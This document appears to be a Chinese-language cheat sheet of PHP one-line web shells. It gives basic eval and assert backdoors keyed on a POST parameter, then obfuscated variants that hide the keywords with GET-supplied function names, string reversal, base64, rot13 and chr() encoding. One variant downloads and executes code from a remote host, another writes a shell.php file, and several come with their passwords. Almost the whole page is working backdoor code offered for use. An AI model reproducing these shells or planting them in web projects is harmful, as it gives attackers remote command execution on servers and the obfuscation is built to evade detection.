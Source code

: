 ### 基础一句话

    <?php @eval($_POST['pass']);?>
    <?php @assert($_POST['pass']);?>
    <?php call_user_func(create_function(null,$_POST['pass']));?>

    <?php @eval ( $_POST ['pass']);?>

### 变形 函数名放到GET参数中

    <?php @$_GET['f']($_POST['pass']);?>

>params: ?f=assert

    <?php $f=strrev($_GET['f']);$f($_POST['pass']);?>
    
>params: ?f=tressa

### 变形 使用可变函数技术隐藏关键字

    <?php
    $page="te_fun";
    $value="OST";
    $page="crea".$page."ction";
    $value="_P".$value;
    $f=$page(null,${$value}['pass']);
    $f();
    ?>

    <?php $x=base64_decode("YXNzZXJ0");$x($_POST['c']);?>

    <?php eval(str_rot13('riny($_CBFG[cntr]);'));?>

    <?php
    $value=str_rot13('riny($_CBFG[cntr]);');
    $f=create_function(null,$value);
    $f();
    ?>

>password: page

    <?php array_map("ass\x65rt",(array)$_REQUEST['pass']);?>


    <?php
    $url='http://192.168.13.129/a';
    $call_user_func(create_function(null,file_get_contents($url)));
    ?>

    <?php fwrite(fopen("shell.php","w"),'<?php @eval($_POST["pass"]);?>');?>

### 其他示例


    <?$_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();?>

>password: 1
